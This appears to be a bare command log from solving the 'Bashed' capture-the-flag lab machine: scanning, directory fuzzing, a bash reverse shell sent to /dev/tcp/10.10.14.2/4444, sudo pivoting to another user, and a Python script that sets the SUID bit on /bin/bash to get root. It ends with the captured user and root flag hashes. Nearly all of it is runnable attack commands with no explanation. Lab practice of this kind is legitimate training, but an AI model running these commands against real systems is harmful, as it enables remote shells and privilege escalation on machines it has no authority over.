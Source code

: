 # Bashed

furious 10.10.10.68

nmap -sC -sV -Pn -n -p80 10.10.10.68 -oN targeted

wfuzz -c --hc 404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.68/

http://10.10.10.68/dev/phpbash.php

echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" > shell.sh

sudo python3 -m http.server 80

sudo -l

sudo -u scriptmanager bash

cat /home/arrexel/user.txt

## user
2c281f318555dbc1b856957c7147bfc1

find / type f -user scriptmanager 2>/dev/null

nano /scripts/test.py

```python3
import os
os.system("chmod 4755 /bin/bash")
```

ls -l
bash -p

cat /root/root.txt
## root
cc4f0afe3a1026d402ba10329674a8e2

![gcore.png](gcore.png)
